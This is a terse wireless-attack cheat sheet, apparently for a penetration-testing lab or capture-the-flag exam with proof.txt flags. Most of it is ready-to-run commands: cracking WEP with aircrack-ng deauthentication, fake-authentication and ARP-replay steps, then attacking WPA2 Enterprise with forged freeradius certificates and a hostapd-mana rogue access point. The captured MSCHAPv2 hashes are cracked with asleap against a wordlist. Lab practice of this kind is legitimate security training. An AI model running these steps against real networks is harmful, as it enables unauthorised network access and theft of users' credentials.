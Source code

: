 Attacking WEP:

# prep monitoring interface

airmon-ng check kill
airmon-ng start wlan0

# setup active listener to catch traffic

airodump-ng --bssid <BSSID> -c <CHANNEL> -w <OUTFILE> <IFACE>

# deauth to generate some data and reveal clients

aireplay-ng -0 0 -a <BSSID> <IFACE>

# fake auth to generate IVs

aireplay-ng -1 6 -e <SSID> -a <BSSID> -h <CLIENT MAC> <IFACE>

# when enough ARP requests are caught, use arpreplay

aireplay-ng -3 -b <BSSID> -h <CLIENT MAC> <IFACE>

Be patient, it'll take a while to get enough IVs

Start running aircrack on the pcap file to crack it:

aircrack-ng <file>

login to network:
sudo /sbin/ifconfig wlan0 up
sudo /sbin/iwlist wlan0 scan
sudo /sbin/iwconfig wlan0 essid "NetworkName"
sudo /sbin/iwconfig wlan0 key network_key
sudo /sbin/iwconfig wlan0 enc on

You may need to run 'dhclient wlan0'

alternative method:

sudo iwconfig wlan0 essid <SSID> key s:<KEY>
sudo dhclient wlan0

Get flag:
curl 192.168.1.1/proof.txt

WPA2 Enterprise:

Look for WPA MGT network in airodump

Grab cert files from wireshark / tshark traffic using tls.handshake.type == 11,3 or tls.handshake.certificate filters
  - view Packet Details >> TLSv1 Record Layer: Handshake Protocol: Certificate
  - save certificates to file, right click cert string and click Export Packet Bytes

View SSL cert info:
openssl x509 -inform der -in CERTIFICATE_FILENAME -text

Use freeradius to provide fake cert to clients
  - alter certificate_authority block in /etc/freeradius/3.0/certs/ca.cnf:

    [certificate_authority]
    countryName             = US
    stateOrProvinceName     = {2 letter state}
    localityName            = {City}
    organizationName        = {Company Name}
    emailAddress            = {Email}
    commonName              = "Such and Such Certificate Authority"

  - alter server block in /etc/freeradius/3.0/certs/server.cnf:

    [server]
    countryName             = US
    stateOrProvinceName     = {2 letter state}
    localityName            = {City}
    organizationName        = {Company Name}
    emailAddress            = {Email}
    commonName              = "Playtronics"

  - change dir to /etc/freeradius/3.0/certs/ and run:
    rm dh
    make

  - YOU WILL GET AN ERROR, but it doesn't matter

Setup hostapd-mana for the rogue AP using the (updated!) mana.conf file, move to etc/hostapd-mana/mana.conf

Use mana.eap_user file, move to /etc/hostapd-mana/mana.eap_user

Start hostapd-mana:
hostapd-mana /etc/hostapd-mana/mana.conf

Hostapd-mana will output asleap commands, find a user with a successful login (from wireshark traffic) and run command like so:
<asleap command> -W /usr/share/john/password.lst

connect to WPA2 EAP via wpa_supplicant:

network={
  ssid="NetworkName"
  scan_ssid=1
  key_mgmt=WPA-EAP
  identity="Domain\username"
  password="password"
  eap=PEAP
  phase1="peaplabel=0"
  phase2="auth=MSCHAPV2"
}


Connect to network:

wpa_supplicant -c <config file>

curl 192.168.1.1/proof.txt

DONE
